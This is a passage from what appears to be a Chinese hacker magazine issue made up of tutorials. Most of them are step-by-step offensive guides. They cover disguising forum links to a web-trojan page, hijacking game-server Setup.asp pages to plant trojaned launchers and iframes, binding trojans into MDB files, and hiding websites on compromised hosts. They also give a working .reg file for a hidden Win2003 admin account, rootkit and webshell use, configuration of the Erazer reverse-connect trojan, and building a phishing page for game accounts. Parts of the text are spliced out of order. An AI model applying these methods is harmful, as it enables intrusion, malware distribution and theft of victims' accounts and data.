- 4. 上面那些都属于恶搞型的，危害不是很大，下面再来介绍一个有点利用价值的。还是以上边的那个论坛做试验吧，发一个新帖，选择 Discuz 代码模式，编辑帖子如下“最近自己写了个工具，特意共享给大家，大家试试怎么样吧[url=...”。

http://www.duyao.com/muma.html ... 这样我们发出来的帖子链接地址显示是 http://www.****.cn/bbs/attachment.php?aid=109，但真正的链接地址却指向了 http://www.duyao.com/muma.htm ……


当我们把鼠标放到链接地址上时，状态栏会显示 http://www.duyao.com/muma.htm。如果你没有注意直接点了上去，就会不知不觉中了我们的网马。

> ### HTTP 知识
> anchor（锚）标记允许显示的文本指向一个不是文本本身的链接……例如把链接文字写成 `http://www.163.com`，但实际指向 `http://www.sina.com`。

写到这里我突然想起了很多游戏都是支持中文 ID 的……我们仅仅是测试的目的，但是如果我们注册成“系统消息”的 ID 并发出类似“为了答谢广大玩家，特举办游戏冲点奖活动……”的公告，还是会有不少玩家中招。


## 挖掘亚军网站传奇私服

艾泽拉斯国家地理是中国最大的 WOW 网站，以前被某人黑了后修改了外挂下载的链接，指向一个含有木马的外挂下载地址。

我这次的思路是利用挖掘鸡搜索传奇私服的 Setup.asp 文件（网站初始设置文件），更改管理员密码，登录后台后替换私服登录器（捆绑木马）。先点击“添加后缀”，在输入框内输入“/Setup.asp”（图 2）。


然后在关键词内输入“舞曲音乐 装备展示”，设置好超时和线程数（建议默认），点击开始（图 3）。接下来耐心等待（大约 5 分钟就会出现结果），如图 4。任意打开其中的一个网站 http://qnsf.9jh.com/setup.asp：界面显示就是网站设置步骤（图 5），点击“第一步已完成，进入下一步”，进入管理员密码设置界面（图 6），更改用户名和密码，点击确认提交后自动跳转到后台登录界面（图 7）。


输入刚才设定的账号、密码及验证码登录，进入后台（图 8）。在左边选择下载管理中的软件管理栏目（图 9），找到登录器点击编辑（图 10）。


进入相关编辑页面后，先下载原始文件到本地，然后将我们的木马捆绑到原文件中；最后替换原来的登录器（图 11）。木马传上去后，就等着私服的玩家来下载了。如果这个私服的玩家很多，那么我们的肉鸡就有得吃了 ^-^


还有的私服不提供登录器，只给出了私服 IP，这种情况下就别自作聪明地添加登录器下载了，还是老老实实地在首页挂马吧。打开后台里的网站设置，在最新私服预告中的私服名称后加上你的马站 OK 了，这里完全没有过滤（图 12）。为了让大家看清楚，我加入的代码为 `<iframe src='http://www.baidu.com' width='80' height='80' frameborder='0'></iframe>`，更新后首页就有了一个百度的框框（图 13）。


> （本文所涉及到的挖掘鸡已收录到光盘中）

## 免费的，成套来电，窝窝卖鸟喜欢的

在今年第 6 期的 Y 档案上，我向各位推荐了一款免费的网络电话 wengophone，我们可以通过它在电脑上免费拨打任意的手机和固定电话。不过，wengophone 不太稳定，信号也不好。最近我也一直在寻找更好用的免费电话（因为我要给 MM 打电话，但却又囊中羞涩），无意中在网上发现了 jajah 这个好东西。

它可以实现通过网页来免费拨打电话，通话的质量非常不错，更重要的一个特点是可以完全脱离电脑。当拨打成功后我们就可以关闭网页，甚至是关闭电脑，都不会对已经接通的电话有任何影响。简单地说，这款软件会先呼叫我们的手机/固话，当接通后，它再呼叫要拨打的手机/固话，当对方也接通后，我们和对方就可以自由通话了，而 jajah 的任务就算是完成了。

因此，我们和要拨打的电话都是属于被动接听的。对于固定电话，接听是不收费的；对于手机来说，要想实现双方完全免费，就需要是接听免费的那种了（如果你只是想用来骚扰对方的话，就不必关心对方接听要不要钱）。

### 傻瓜黑客

在浏览器中打开 **www.jajah.com**（图1）。第一次使用需要先注册，点击右上角 **register now** 进入注册页面（图2），填写 `First name`、`Last name`、`Your Email address`、`Choose password` 等信息与验证码，然后点击 **Continue to Step 2** 进入第二步（图3）。

第二步填写家庭、办公室和手机号码，完成后点击 **REGISTER NOW**。系统会向邮箱发送激活邮件，点击邮件链接即可完成注册。

随后可在网站中登记需要拨打的电话。登录后在 `My Phone Number` 选择自己的电话，在 `My Friend's Phone Number` 输入对方号码，点击 **CALL** 后进入连接界面（图5）。先接听本机，再接听被拨手机，即可完成网络回拨通话。

另外还可以发送短信：点击图4中 CALL 左侧的小信封进入短信功能（图6），填写内容后点击 **SEND** 发送。文中提到短信内容主要支持英文或数字。

## 巧夺QQ号之全面QQ

文中描述了一种伪装工具思路：通过自制“软件”诱导对方输入账号密码，并把信息发送到攻击者指定位置。正文包含对网页收信、文件生成与伪装执行文件等流程的说明，以及“QQ.exe”示例与注意事项。

## 伪装我们的CMD窗口

公司里规定，除了工作上的事情外不能从事其他与工作无关的事。可是，没事干的时候，总不能像白痴一样一直对着电脑发呆吧。所以我就拿出本黑客X档案开始练手……CMD窗口被我伪装成了记事本窗口，下面就来看看制作过程。

“$S”是将命令提示符更改成空格；“title 无标题 - 记事本”用于更改CMD窗口标题；“&”可连接多个命令；“起始位置”可设为常用路径（如 D:\bak\武器分类）；快捷键、备注、图标等也可改成与记事本一致。

- **伪装思路**：在 `cmd.exe` 所在目录创建快捷方式，并修改其属性，使其外观像记事本。  
- **准备快捷方式**：进入 `\windows\system32`，对 `cmd.exe` 右键创建快捷方式，并重命名。  
- **伪装属性**：在“目标”加入 `/K prompt $S$&title 无标题 - 记事本` 等命令；设置起始位置、备注、图标（可指向 `C:\WINDOWS\NOTEPAD.EXE`）；在“颜色”中设“屏幕背景”为白色、“屏幕文字”为黑色。  
- **运行方法**：保存后双击快捷方式测试，也可在“运行”中输入 `cmd.lnk` 启动。

## 黑客大百科

## 什么是3389

3389通常指 TCP 3389 端口，是 Windows 远程桌面（终端服务）的默认端口。远程桌面便于管理员维护服务器、运行程序与管理资源，但也可能被不当利用；在安全语境下，3389常与远程控制风险一并被讨论。

## 小心，MDB也有“鬼”

阿布

MDB 文件是我们这些小注入狂所熟悉的 ACCESS 数据库文件，那么大家有没有使用过 MDB 文件捆绑过木马吗？其实利用的原理就是古老的 JET 溢出，且听我慢慢道来。

感谢职业欠钱叔叔提供这个工具，目前还是免杀的哦。我们打开这个工具（图1），点击“选择文件”按钮来选择需要捆绑的木马文件。需要注意的是，这个捆绑的文件要在 50K 以内，可能会有菜鸟说了，灰鸽子的服务端有 300 多 K 呢怎么办？我推荐使用顶狐下载者（图2），这是网上唯一一款自列变种免杀的下载者，具有穿越防火墙、多项下载、开机启动、体积小等优点。选择好木马后，点击“捆绑”按钮就 OK 了，在工具的目录下就会自动生成一个 templet.mdb 文件，它就是捆绑完成之后的“作品”。由于我的电脑没有安装 ACCESS，所以就以 Domain3.5 来测试，在打开数据库的时候，用来测试的木马也执行成功了（图3）！

再来谈谈具体该如何利用吧！因为扩展名是 MDB，所以大家都不会很警惕，你可以通过 QQ 或 MSN 直接传给别人让对方看看数据库设计得怎么样？也可以伪装成这是一个动网网站数据库，怎么来找管理员的密码等等。另外，还有一种更有效的方法可以钓到很多肉鸡，思路就是上传到网站的默认数据库路径下，骗别人下载。

我们可以制作一个假的网站，最好是论坛（因为大多数菜鸟都对论坛的入侵比较熟悉），把捆绑生成的 MDB 文件放到默认数据库路径下，比如动网论坛（dvbbs/data/dvbbs7.mdb），然后就去很多的黑客论坛上发帖，大致内容可以是：“我找到了一个默认数据库的论坛，但是我不会入侵，各位大哥能帮帮我吗？地址是 http://www.xxx.com/bbs/data/dvbbs7.mdb”。浏览帖子的黑友肯定会笑你傻，但是笑到最后的就不是他了，当他们把数据库下载回来打开后，捆绑在里面的木马也就运行了！抓肉鸡其实就是这么简单！

（本文所涉及到的 MDB 捆绑工具和顶狐下载者已收录到光盘中）

## 偷偷单单？制作超级隐藏的网站

阿布

看 X 档案也这么多年了，各位的肉鸡肯定也不少吧？那么这些肉鸡你有没有充分地利用呢？比如利用肉鸡宽带下载东西，利用肉鸡对别人进行拒绝服务攻击，利用肉鸡搞入侵……那么有没有想过在肉鸡上开个网站呢？这样才算是充分利用肉鸡的资源，榨干肉鸡的最后一滴油！今天就来教大家如何利用肉鸡来偷偷地开个我们自己的网站（简单，在肉鸡的 IIS 中开个虚拟主机不就 OK 了吗）。哪有这么简单，别忘了我们要做的是完全隐藏这个网站，虽然也是使用的 80 端口，但在 IIS 中却是完全看不到的，这样才不怕管理员哥哥检查，我们的秘密网站才能生存得更久远哦！

### 1. 配置DLL

在配置 DLL 文件前我们需要去申请一个免费域名，注意：此域名不同于 126.com 之类的转向域名，我们申请的域名是可以用来在 IIS 中作为主机头的。可以去科迈网（http://www.comexe.cn）申请一个 *.kmip.net 的域名，我申请的是 92x.kmip.net（图1），然后把其 A 记录更改为肉鸡的 IP 地址（外网）。

接下来，请出今天的主角，银色巢穴出品的 MakeDomain，其中包括一个配置文件和一个 DLL 文件。双击打开配置文件，可以看到这个域名捆绑软件可以绑定 2 个域名（主机头名），填入刚才申请的域名 92x.kmip.net，在路径框里要填写的是网站的根目录。为了能够更好地隐藏方便，我把根目录放在了肉鸡的 `C:\WINNT\System32\Drivers\92x\` 下，所以就在配置文件中的路径框中填写 `C:\WINNT\System32\Drivers\92x\`。OK！填写完成，单击 Make 按钮，提示生成成功（图2）。

### 2. 配置肉鸡

现在来到肉鸡上，我是通过 3389 远程登录的。先在刚才填写的路径下建立网站的根目录文件，需要注意一下，一定要给网站根目录充足的权限，也可以按照图3中的权限进行设置。建立好目录后，打开肉鸡的注册表，在注册表中找到以下位置 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters`，把 `Filter DLLs` 修改为 `fmulti.dll` 的完整路径地址（图4），建议把 `fmulti.dll` 放在 SYSTEM32 目录下。

现在再打开一个 CMD，分别执行 **net stop w3svc** 和 **net start w3svc**，也就是把 W3SVC（World Wide Web Publishing Service）服务重新启动一下（图5）。

### 3. 测试收工

现在来测试一下建立的网站（图6），怎么样，还可以吧。你到肉鸡的 IIS 管理器中不会发现我们建立的虚拟主机，是不是很隐蔽啊！如果你有国际域名的话，可以找 N 个肉鸡一起来做网站，每个肉鸡分配一个二级域名，这样你的网站就显得更大了，更正式了。

### 4. 注意事项

绑定的域名也可以是 ***.3322.org 之类的域名。这个工具已经被杀毒软件查杀了，不过可以在本地生成完 DLL 文件后，加个壳就 OK 了。再就是权限问题，网站根目录的权限一定要设置好。

好了，一个隐藏、没有宽带限制、没有 CPU 限制、空间 N 大（视你网站根目录所在盘的大小影响）的网站就这么建设完毕了。当然也可以和前几期 X 中介绍的 Ability FTP Server 这个软件配合，或者利用 X 中很早就提到的 Serv-U 下的 DLL 后门，这样肉鸡就不用再开新端口了，管理员哥哥也就不会发现我们了。

（本文所涉及到的 MakeDomain 已收录到光盘中）

## 寻找代理不再愁，The Privacy Guard 来解忧

通常我们在对目标站点进行渗透前都会选择一个速度快并且安全性高的代理，因为我们所做的一切都会在目标系统的 Web 日志中被记录下来。另外现在有很多网站都使用了通用防注入系统，当我们在提交注入语句的时候，它便会将其拦截下来并记录下你的 IP 地址等信息，这可是很危险的呀。因此，使用代理服务就成了一种非常有效的防范手段。

通常我们寻找代理的方式大多是通过一些代理公布网站或某些代理搜索软件，找到后还要使用诸如花刺等代理验证软件来验证代理的快慢及可用与否。多数情况下找到的代理要么速度慢要么就是无法使用，而且寻找及验证过程也相当麻烦！那么有没有一种软件可以让我们自定义去寻找那些速度又快而且安全性又高的代理呢？

回答当然是肯定的！下面我为大家介绍的 The Privacy Guard 就会自动完成这些步骤，免去你为寻找代理而带来的烦恼！首先安装 The Privacy Guard，安装的过程非常简单，基本上一路“Next”即可，运行后的界面如图1所示。

“Your real IP address”下显示的是我们的真实 IP 地址，由于我是在内网，所以显示的是我在内网中的 IP 地址。我们会发现“开始”按钮下方显示的状态信息为“INACTIVE”，也就是“非活动”状态。

我们点击下方的“选项”，如图2。当选中“在启动时运行”时，系统将会在每次启动时自动运行 The Privacy Guard。当选中“改变代理每隔…时间”时，软件便会在用户设定的时间内自动更换代理，这也是我们在渗透网站时必须要做的。接下来是“代理安全”和“代理速度”选项，可以拖动滑块让软件搜索符合要求的代理。最后是“当程序启动时运行PC保密清理”，用于自动清理 Cookies 和 IE 临时文件等信息，设置好后点击“保存”。

然后进入“隐藏IP”选项，点击“开始”按钮，软件会自动去网上搜索符合要求的代理。此时“停止”按钮下方状态为“Searching”，任务栏也会显示“搜索代理已开始”的信息（如图4）。

不久任务栏会提示“代理已改变”，并显示代理 IP 地址和国家信息。回到程序主界面可看到状态变为“ACTIVE”，“Your real IP address”显示公网真实 IP，“Protected & Hidden behind”显示当前代理 IP 和国家信息，同时可见代理速度状态和类型（如图5）。

我们在 IE 上点击“属性”→“连接”→“局域网设置”，可以看到当前所用代理信息（如图6）。在任务栏 The Privacy Guard 图标上右击选择“我的IP”，程序会访问网站中的 `myip.php` 文件查询当前 IP（如图7），由此可验证是否成功隐藏原始 IP。

最后进入“隐藏隐私”选项，可以选择性清除上网遗留隐私信息，点击“应用”后程序会自动清除（如图8）。当需要立即更换当前 IP 时，可在任务栏程序图标上右击选择“立即改变IP”（如图9），程序会自动搜索并更换代理，效果如图10。

（文中涉及到的工具 The Privacy Guard 已被收录于光盘中）

## 玩转命令提示符

平凡

我是一只菜鸟，但“龄”却已有三年了，这回终于鼓起勇气向大家介绍几个使用命令提示符的小技巧。

### 1．鼠标一拖两点轻松完成选择、复制与粘贴

在命令提示符中，默认状态下不能直接使用鼠标左键拖动选择。若想直接拖动选择文本，可在标题栏中选择“编辑→标记”命令，或者在窗口任意位置右键后选择“标记”命令。这时鼠标才能拖动选择，也可配合键盘进行选择。复制、粘贴时还需要鼠标左右键配合，操作较繁琐。

造成这种情况的原因是处于“非快速编辑模式”。在属性对话框的“选项”中勾选“快速编辑模式”，并选择“保存属性，供以后具有相同标题的窗口使用”，即可让后续 CMD 窗口直接生效。

设置好后，可直接拖动鼠标选择内容；在窗口任意处点右键可完成复制与粘贴（第一次复制，第二次粘贴），实现一拖两点的简化操作。

在命令提示符下可用 TAB 键进行路径与文件名补全：先输入前几个字母再按 TAB，系统会在匹配项之间循环；若输入字符不在开头则不支持通配方式。

例如当前目录为 `C:\`，输入 `cd ` 后连续按 TAB 可补全到 Windows 目录。若存在多个同前缀目录（如 temp、temp1、temp2），可先输入更多前缀再按 TAB，以减少循环次数。

“自动完成”功能在命令提示符中默认开启；如需关闭，可在属性设置中取消“自动完成”相关选项。

### 2．自动完成功能

VB 与 VC 等开发工具中的“自动完成”广为人知。命令提示符同样具备自动完成能力：按 TAB 键可按名称顺序在当前目录的文件与文件夹间循环选择；按 Shift+TAB 可反向循环。

### 3．快速输入路径

Windows 使用长文件名路径，不像早期 DOS 的 8.3 格式，手动输入长路径容易出错且效率低。借助命令提示符的自动完成与 TAB 补全，可显著降低路径输入难度。

### 傻瓜黑客

对于这个输入长路径的问题，微软都为我们想好了，以下就是我所知道的两种解决方法。

- **方法一：直接拖放**  
  把输入的路径直接从资源管理器窗口拖到命令提示符窗口中，即可自动显示完整路径（也可拖文件名/文件）。


- **方法二：使用通配符 `*` 与 `?`**  
  `*` 可代替多个字符，`?` 可代替单个字符。可减少长路径输入量（例如 `CD W*` 进入 Windows 目录），但需注意匹配范围。


如果是一个很长的文件夹路径（如 `C:\Documents and Settings\All Users\Application Data\Microsoft\OFFICE\DATA`），可尝试用通配方式简写，但使用场景有限，测试中主要在 `CD` 命令后有效。

好了，关于命令符使用技巧我就知道这些，都是我以前学习及使用中的总结，如有不正确的地方，还请大家多多指教。本文测试环境为 XP。

## Win2003远程终端超过最大连接数的意外收获

风雪玉箫

大四刚开学，我们从分校区搬到校本部。因为许多资料仍在分校，晚上远程连接时出现“终端服务器超出了最大允许连接数”的提示（图1）。Win2003 默认远程桌面仅支持两个用户，可通过远程终端服务增加连接数，但需要 License。


管理员提示可用 `tsmmc.msc` 连接。作者在 Win2003 上测试可行（图2），但将其拷到 XP 后运行报错（图3）。


系统报错信息往往是线索。问题出现时得到如下信息：

1. 计算机提示 `tsmmc.msc` 运行失败。  
2. 失败原因是“管理单元初始化失败”。  
3. 进一步信息指向注册表中的 `CLSID`（如 `3d5d035e-7721-4b83-a645-6c07a3d403b7`）。

注册表中的呢？经验！真的，经验有时真的很重要。并且，如果你了解或熟悉 COM 编程，你也会知道 `3d5d035e-7721-4b83-a645-6c07a3d403b7` 就是注册 DLL 时保存到注册表中的值。既然如此，我们到注册表中查一下，利用注册表的查找功能，我很快就找到了（图4）。


大家看到没有，它指向了 `C:\Windows\System32\mstsmmc.dll` 文件，这个文件在 XP 上是不存在的，我们从 Win2003 上提取一份到 XP 的 System32 目录下，然后进入 cmd，执行 `regsvr32 mstsmmc.dll` 注册该 DLL（图5）。


重新运行 `tsmmc.msc`，没有了先前的错误提示，本以为现在应该 OK 了，结果输入 IP、用户名、密码连接后居然提示连接错误（图6）。


看来，要把它提取安装到 XP 上，并不像我想象的那么简单。问题到这儿卡住了，无奈之际，到网上 baidu 了一下，结果在微软网上我又有了意外的收获，以下便是微软对 tsmmc 的阐述。

> Windows XP 中提供的 Adminpak.msi 文件通常用于在基于 Microsoft Windows 2000 和基于 Microsoft Windows Server 2003 的计算机上执行远程管理任务。Adminpak.msi 文件包括“微软管理控制台中的 TSMMC.msc 组件”。不过目前（以前被称为“终端服务连接”）是作为 MMC 管理单元提供的。Windows Server 2003 提供了通过使用“远程桌面”连接来连接到计算机控制台（会话 0）的功能。因此，用“远程桌面”提供了一个连接到控制台会话选项，但是此功能只在连接到基于 Windows Server 2003 的计算机时才起作用。仍然可以使用“远程桌面”连接到运行 Microsoft Windows NT 4.0 终端服务器版或启用终端服务的 Windows 2000 Server 的计算机，但是这样会创建一个常规的远程桌面协议（RDP）会话，连接到控制台会话的选项将不可用。不能通过“远程桌面”连接到运行 Windows XP Professional 的计算机控制台会话。无论是否选中连接到控制台会话选项框，因为 Windows XP Professional 系统没有这种类型的远程桌面连接。

从上面的解释我们可以知道以下几点：

1. tsmmc.msc 是存在于 Adminpak.msi 中的。因此，我们可以用这个把它安装到 XP 上；  
2. 在达到最大连接数的情况下，我们还能利用它连接到远程计算机，是因为我们是连接到计算机控制台（会话 0）。这个在我们建立连接时，是可以看得到有个“连接到控制台”选项的（图7）；  
3. 此功能只对目标操作系统是 Win2003 的机器才适用（我远程的好用的是 Win2003）。


既然 tsmmc.msc 是存在于 Adminpak.msi 中的，我们完全可以找到 Adminpak.msi 来安装 tsmmc.msc 到 XP 中。网上说这个是在安装光盘的 I386 目录下，我找了一圈也没找到。后来，在 Win2003 的 System32 目录下找到了，看来，网上有些东西也不能全信。不过要注意的是，如果你的 XP 系统低于 SP1 的话，你必须安装一个名为 `q329357_WXP_SP1_x86_CHS.exe` 的补丁包，你可以到微软的官方网站去下载这个补丁包。安装完补丁后，就可以运行 Adminpak.msi，将 Win2003 上的所有管理工具安装到 XP 上了，包括“远程桌面” `tsmms.msc`。当然，你也可以根据自己的需要选择相应的模块，例如运行 `msiexec /i adminpak.msi ADDLOCAL=FeTSMgrConsole` 命令，我们就可以只安装与终端服务相关的部分。

而在达到最大连接数的情况下，我们还能利用它连接到远程计算机，是因为我们是连接到计算机控制台（会话0）。由此，我想起 XP 远程桌面 mstsc 是支持这种方式的，运行 `mstsc /?`，大家也可以看到 XP 的远程桌面是提供了这种方式的（图8）。


只要运行 `mstsc /v:目标IP /console`，就可以以控制台方式（会话0）连接。如此一来，如果你手头没有 adminpak.msi 安装 tsmmc.msc，就可以用这种方式连接到目标主机，踢出多余用户，然后重新正常登录即可。

以上两种方法，大家可以根据需要自由选择，不过不要忘记这只是针对目标主机是 Win2003 系统的。并且，这两种方法也解决了问题，可我还是对为什么会出现图6这种情况比较感兴趣，毕竟，如果手动提取能成功的话，对我们的进步会有很大的帮助，希望高手能不吝赐教，共同提高。而以上技巧，也希望对大家有所帮助。

（本文所涉及到的 `q329357_WXP_SP1_x86_CHS.exe` 和操作动画已收录到光盘中）

> **X编辑：** 这是一篇很棒的解决问题类文章，内容深入浅出，随着解决问题的过程不断深入原理。我们在看这类文章，不光要看文字内容，更重要的是学习作者解决问题的方法。比如通过错误提示发现问题、借助搜索引擎寻找答案、从有用的信息中归纳出内容要点等等。知识固然重要，获取知识的方法尤为关键。

## Windows2003菜鸟后门全攻略

人鱼姬

众所周知，Windows2000 是 Windows NT 5.0，Windows XP 是 Windows NT 5.1，Windows Server 2003 是 Windows NT 6.0。聪明的读者一定会猜到 Windows2000 与 Windows XP 比较相近，而 Windows2003 与前两者的差别比较大。事实上也是如此，Windows2003 的安全性与其它版本的 Windows 相比已有了很大提高，许多可以在 Windows2000/XP 下使用的后门已不能在 Windows2003 上使用了。本文我将总结一些在 Windows2003 下制作后门的技巧。

### 建立隐藏管理员账户

记得以前曾经有个非常好用的工具 `hideadmin.exe`，可以在 Windows2000/XP 下建立隐藏账户，但在 Windows2003 下已经行不通了。但我们还是有别的办法来建立隐藏账户的。


图 1

首先使用拥有管理员权限的账户登录进系统，在“运行”栏输入 `regedit32` 启动注册表，找到 `HKEY_LOCAL_MACHINE\SAM\SAM`，在 SAM 上点击鼠标右键，选择权限，如图1，将管理员组的权限设为完全控制，如图2。


图 2

再找到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator`，如图3，看到了吗？


图 3

键值是 `1f4`，前面的 `0x` 代表后面的值是十六进制的，记住 `1f4`，后面要用到。

然后我们使用 `net use` 命令新建一个管理员账户，再把这个账户删除了，记得用户名要以 `$` 结尾，如图4。再建立一个 reg 文件，内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\renyuji$]
@=hex:1f,4
```

其中的 `renyuji$` 就是刚才删掉的那个有管理员权限的账户，`1f4` 就是刚才看到的那个键值。双击将上边的 reg 文件导入进注册表，如图5。


图 4


图 5


图 6

好了，现在就已经有了一个隐藏的管理员账户了，用户名叫 `renyuji$`，再使用 `net user renyuji$ renyuji` 命令给该账户设置一个密码就可以了。这个账户在命令行下和图形界面下都是不可见的，如图6、图7。

我们输入 `net user renyuji$` 看看，如图8，看到了吗？`renyuji$` 的用户名显示的是 `administrator`，也就是说这两个账户的个人设置完全是一样的。如果你想让建立的账户和某个已存在的账户的个人设置一样，那你只须在 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\` 下找到相应的用户名对应的键值，然后用此方法就行了。

大家要小心哦，此时 `renyuji$` 和 `administrator` 使用相同的桌面和收藏夹等等，你可不要做什么改动，否则很容易被发现的。如果此时 `administrator` 通过远程终端登录进系统，而没有注销就断开的话，我们使用 `renyuji$` 账户从终端登录，看到的将是 `administrator` 未完成的工作，很有趣吧！


刚才不是已经建立了个隐藏的管理员账户了吗？快添上吧，这样当我们访问 webshell 的时候就给了 webshell 管理员的权限，如图12。现在，我们的 webshell 就能以管理员权限访问 `C:\Documents and Settings\Administrator` 或是执行命令了，如图13、图14。


### 管理员权限的 webshell

当我们获得 Windows2003 的管理员权限后，如果我们能将 webshell 提升为管理员权限就更有利于以后对此服务器的控制了。但是网上的某些教程会教大家将 IIS 提升为 system 权限或将 IUSR 提升为管理员，但是这种做法会影响此服务器的安全性，造成别人也很容易控制此服务器。我想了一个办法来解决这个问题。

首先把我们的海阳2006上传到服务器上，在默认的配置下，通过 FSO 文件浏览操作器是没法进入 `C:\Documents and Settings\Administrator` 的，因为访问这个文件夹要求有管理员权限，如图9；同时我们也不能通过 WScript.Shell 程序运行器来执行命令，如图10。


下面进入 IIS 管理器，右键点击我们的 webshell，选择“属性”，再选择“文件安全性”，在“身份验证和访问控制”中点击“编辑”，看到了吧，此时 webshell 的权限是 IUSR，如图11。

### rootkit 的选用

与个人电脑比起来，服务器的配置比较安全，大多数都安装有防火墙和杀毒软件，有的还在内网通过端口映射来提供服务。这样的话，一些普通的木马就不能用在服务器上了。我个人认为 rootkit 是个比较好的选择，又能躲过杀毒软件又能端口复用。但是并不是所有 rootkit 都能用在 Windows2003 上的。比如我最喜欢的 Hacker Defender 1.0.0，在别的系统上工作正常，但在 Windows2003 上就无法在 80 端口得到 shell，如图15。


这着实让我头痛了一阵子，但是经过我的千挑万选，终于发现 `ntrootkit1.22` 可以胜任这个工作。首先对后门进行脱壳和加壳，再打开配置文件，填入连接密码以及要隐藏的文件、目录、账户和服务名称等。大家填的时候一定要仔细看说明哦。设置好后在目标服务器上运行，如图16。


下面在本地使用客户端连接 80 端口，如图17，其中“-p”后面的是目标 IP，“-t”后面的是连接的模式，2 代表 UDP 模式。


在源代码中找到“`<form action="/gb/sign" method=post>`”，先来改一下路径，把其中的“`/gb/sign`”改为 `http://hk.geocities.yahoo.com/gb/sign`，保存就可以了。再改一下文件的后缀名，把 `sign[2].txt` 改为 `sign[2].html`，然后在本地使用网页编辑程序打开就可以来修改了。不要把输入框和提交框给删除了，其它的都可以改动，把 y a h o o 的广告条删除，再来装饰一下其它地方。或者直接去跑跑卡丁车官方网站下载它的页面来做一下改动，那样会显得更加逼真。这样一来一个精致的盗号页面就差不多做好了。比起刚才那个干巴巴的提示输入账号密码的页面好多了！随便找一个静态空间传上去。网上静态空间有很多，也可以参考上一期的菜鸟家园。这样比起自己辛苦构造 asp 钓鱼页面来得简单多了。

现在大家都看清这个游戏骗局了吧；其实天下哪有这么多的好事？说起来今天也还算有所收获，这个页面不但可以盗跑跑卡丁车，也可以利用它来盗别的网游号甚至是 QQ 号；但是不建议大家去盗号哦。`http://hk.geocities.yahoo.com/` 是登录访客名册的主页，快去动手 DIY 一个你的留言簿网页吧！

“-o”后面是端口。连接成功后就会得到“CMD>”这样的提示符了，输入“?”可以查看到帮助信息，如图18。可以看到这个后门的功能比较强大，可以查看进程、杀进程、重启机器，甚至是进行 DDOS 攻击。输入 `openshell` 后，就可以看到一个可爱的 cmdshell 了，如图19。


我们在本地查看一下连接，如图20，在图中并没有看到我和目标主机的 80 端口有 UDP 连接，因为此后门只是利用 UDP 数据包通信，并没建立 UDP 连接。另外还有 TCP 模式和 ICMP 模式可以选择，在 TCP 模式中也同样不会建立 TCP 连接的。


（文字中涉及到的工具 `renyuji.reg`、`ntrootkit1.22` 已经收录于光盘中）

### 木马 Erazer Lite 使用手记

公子许

这是一款由 GateOfGod（GOG）小组的 ErazerZ 使用 Borland Delphi 开发的木马。该木马最新版是 0.4，使用 upx 加壳。主要功能包括文件管理、进程管理、远程执行程序、流量监测，支持正向连接和反向连接，仅当主机上线时开启端口等。它的主要特色包括全面的文件管理功能、隐蔽性好，FWB 选项注入到默认的 Webbrowser（不用 DLL）。

下面我们就来看看这款木马的使用方法吧。首先打开主程序 `Erazer.exe` 进行服务端配置，如图1。


如图顶部八个快捷按键分别是：本机设置、配置新服务端、打开下载文件夹、服务端信息、进程管理、流量监测、远程卸载、关于 Erazer Lite。

#### 一、本机设置

我们先来点击第一个快捷按键进行本机设置。第一行是下载文件保存路径，下面是一些关于皮肤显示的选项，这里就不啰嗦了，大家试试就明白了（图2）。接下来进入关键步骤——服务端配置。


#### 二、配置新服务端

点击第二个快捷按键进入服务端的配置。左边的四个选项分别是：连接信息、安装信息、压缩设置、生成服务端。我们先来看 connection 连接信息。

`connection type` 是连接类型，里面可选 `reverse connection`（反弹连接）和 `direct connection`（正向连接），还有个附加选项：`Only open Port hen Online`（仅在上线时开端口），推荐勾选该设置，可增加隐蔽性。下面分别是反向和正向连接的详细设置。

`reverser connection`（反弹连接）中要设置：`hostname`（本机 IP）、`port`（端口）和连接超时退出。`direct connection`（正向连接）中要设置：`port`（端口）、`password`（连接密码）。注意配置反向连接要有外网 IP 哦！配置如图3。

下面来看看安装信息。`install` 选项是复制文件并注册信息，`FWB` 选项是注入到默认的 Webbrowser 并不用 DLL，不过该选项只适用于 Windows NT 以上系统。`Install folder`（安装目录）可以选择：Windows 目录和系统目录。还有个附加选项 `mei` 是自我删除。下面是文件名和注册名。最后是服务端图标选项，你可以设置个系统文件图标来增强隐蔽性，如图4。


在压缩信息选项，只有三个可选项目：不压缩/自压缩、用 upx 压缩、用 fsg 压缩，如图5。这些要视情况而定，如果你对加壳很了解，你可以选择不压缩，然后自己给生成的服务端加壳。如果你是菜鸟，那建议在后两项里选一个吧。配置好后就可以点 `build` 生成了，保存成功会提示压缩成功和 fwb 写入成功，如图6。


## 败马记

#### 三、肉鸡控制

我们可以做个网页木马来等“鱼”上钩，也可以使用邮件或 QQ 发给别人，等对方运行，更可以通过一些远程漏洞将配置好的木马服务端上传到对方电脑上去主动执行。我们配置的是反向连接，所以不用知道对方的 IP 地址。当木马服务端在肉鸡上运行时，会自动来连接我们的 IP。现在就慢慢地等着吧，不一会儿就会发现屏幕右下角出现提示。有肉鸡来找偶了，如图7、图8。

最后来看看“服务端信息”显示功能吧，程序顶部第四个快捷按键，如图12。可以详细地显示主机信息：主机名、用户名、版本……很详细吧！程序顶部第五个快捷按键是进程管理。它会列出主机上运行的各个进程的名称、PID、路径等信息，可用该功能查看和关闭防火墙进程。

Erazer Lite 0.4 就简单介绍到这，这款国外木马的文件管理功能异常强大，希望能给大家带来方便。（本文中所涉及到 Erazer Lite 0.4 已收录到光盘中）

看到肉鸡了吧！下面我们来看看都能做什么吧。首先是强大的文件管理功能。选中上线的肉鸡，再在 drives 中选择要查看的硬盘，如图9。

肉鸡硬盘里的东西就展示在你的眼前了。我们在文件夹上点击右键，会看到右键菜单中有好多功能选项，如图10。

其中的 Upload 是上传功能，可以将本机上的文件上传到肉鸡上；Properties 功能主要用于对文件设置相应的属性，可以简单地起到隐藏文件的目的；Goto 是进入指定目录；properties of 是查看硬盘的使用情况等。

当选择文件右击时，可操作的功能选项就更多了，如图11。分别是刷新、文件夹上传、进入根目录、上传文件、下载文件、远程运行程序、文件重命名、删除文件、更改文件属性、新建文件夹、进入指定目录、查看硬盘使用信息、属性查看。强大的文件管理功能就介绍到这里。

## 零基础入门实战回顾——后门DIY技术

